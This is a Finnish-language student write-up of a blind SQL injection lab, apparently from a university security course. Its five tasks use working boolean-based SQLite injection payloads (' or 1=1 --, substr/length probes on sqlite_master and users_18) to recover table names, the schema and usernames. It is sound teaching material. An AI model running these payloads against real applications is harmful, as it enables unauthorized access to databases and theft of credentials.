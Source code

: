 # Sokkona tehty SQL-injektio

**Tekijä:** Lauri Pimiä (lailpimi)
**Perustelut:** Kaikki tehtävät tehty, joten odotan 1.0p.

## T1

Kokeilin ensin user-id kenttää syöttämällä yhden ' merkin. Koska tämä antoi 
virheen, on kyseinen kenttä haavoittuvainen. Nyt pystyn myös kokeilemaan 
True/false logiikkaa syötteellä "' or 1=1", Tämä palauttaa Welcome eli True 
ja syöte "' or 1=2 --" taas Nope eli False. "--" ovat kommenttisymboleita, 
jotka käytännössä pysäyttävät sql kyselyn syötteeni jälkeen.

Tiivistettynä siis:
' or 1=1 --  = Welcome!
' or 1=2 --  = Nope!
'			 = Error!

## T2

Tietokanta on SQLite3. Ratkaisin tämän kokeilemalla mikä versiokysely antaa 
virheen ja mikä ei.

Syöte:
' or sqlite_version() --	= Welcome!

Komento oli siis toimiva, eli tietokanta on sqlite3. Kokeilin myös 
"' or @@version" (Mysql) ja "' or version()"(PostgreSQL), jotka molemmat 
antoivat virheen.

## T3

Löytyi taulut 'users_18' ja 'messages'

Etsin ensin hieman sqlite syntaksia ja löysin tämän kätevän cheatsheetin:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version

Tiedämme jo, että tietokannassa on kaksi taulua, mutta halusin vielä 
varmentaa tämän, jonka tein komennolla:
`
' or (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') = 2 --
`
Tämä siis saa sqlite_master taulusta listan tauluja, joiden määrän 
laskemme count() funktiolla. Taulujen nimien testaamiseen käytin yhä 
True/false arvailua ja tein sitä varten yksinkertaisen Python skriptin, joka 
löytyy täältä -> https://github.com/naabvb/ITKST53/blob/master/JYU%20labs/Sokkona%20tehty%20SQL-injektio/tables.py

Skripti selvittää ensin taulun nimen pituuden komennolla:
`
' or (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0) = pituus_numerona --
` 
Jos saadaan True (Welcome), ollaan löydetty oikea pituus, muuten kasvatetaan 
pituutta kunnes oikea pituus löytyy. Tätä voisi nopeuttaa < tai > operaattoreilla, mutta en nähnyt sitä vaivan arvoisena tässä tapauksessa.
Parametri limit määrittää kuinka monta riviä vastaukseen kuuluu ja offset 
rivin jolta aloitetaan.

Kun taulun nimen pituus on saatu, aletaan nimen merkkejä arvailemaan yksi 
kerrallaan komennolla:
`
' or (SELECT substr(tbl_name,kohta_nimessa,1) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = 'merkki' --
`
Tämä siis hakee taulun nimestä kirjaimen halutusta kohdasta ja sitä vastaan 
kokeillaan eri kirjaimia kunnes saadaan True. Sitten siirrytään seuraavaan 
kirjaimeen, kunnes kokonainen nimi on valmis.

## T4

Nyt kun taulun nimi on tiedossa oli rivien määrä helppo kokeilla komennolla:

`
' or (SELECT COUNT(*) FROM users_18) = 5 -- 
`

Tein tämän käsin käyttämällä < ja > operaattoreita. Esimerkiksi alla oleva 
antaa True, koska rivejä on enemmän kuin 4. 
`
' or (SELECT COUNT(*) FROM users_18) > 4 -- 
`

## T5

Käyttäjätunnukset: 11111, abramov, accounting, admin ja postmaster

Jotta pystyisin saamaan taulusta käyttäjätunnuksia, tuli minun ensimmäiseksi 
selvittää missä sarakkeessa ne olivat. Käytin taas samaa periaatetta kuin 
aikaisemmin, joten komento pituudelle oli:
`
' or (SELECT length(sql) FROM sqlite_master WHERE type!='meta' and sql NOT NULL and name not like 'sqlite_%' and name='users_18' limit 1 offset 0)= pituus_numerona --
`
ja nimille
`
' or (SELECT substr(sql,kohta_nimessa,1) FROM sqlite_master WHERE type!='meta' and sql NOT NULL and name NOT like 'sqlite_%' and name='users_18' limit 1 offset 0) = 'merkki' --
`
Skripti -> https://github.com/naabvb/ITKST53/blob/master/JYU%20labs/Sokkona%20tehty%20SQL-injektio/columns.py

Tämä ei itse asiassa toiminut aivan kuten ajattelin, sillä ulos tulostui: 
CREATE TABLE users_18 (uid TEXT, pass Text, PRIMARY KEY (uid))

Sain tästä silti sarakkeet, eli uid ja pass. Nyt tein taas samankaltaisen 
skriptin, jossa ensin katsottiin uid:n pituus:
`
' or (SELECT length(uid) FROM users_18 limit 1 offset 0)= pituus_numerona --
`
ja sitten itse uid
`
' or (SELECT substr(uid,kohta_nimessa,1) FROM users_18 limit 1 offset 0) = 'merkki' --
`

T4 perusteella saamme 5 käyttäjää, yksi per offset. Löytyneet käyttäjät siis:
11111, abramov, accounting, admin ja postmaster

Skripti -> https://github.com/naabvb/ITKST53/blob/master/JYU%20labs/Sokkona%20tehty%20SQL-injektio/users.py

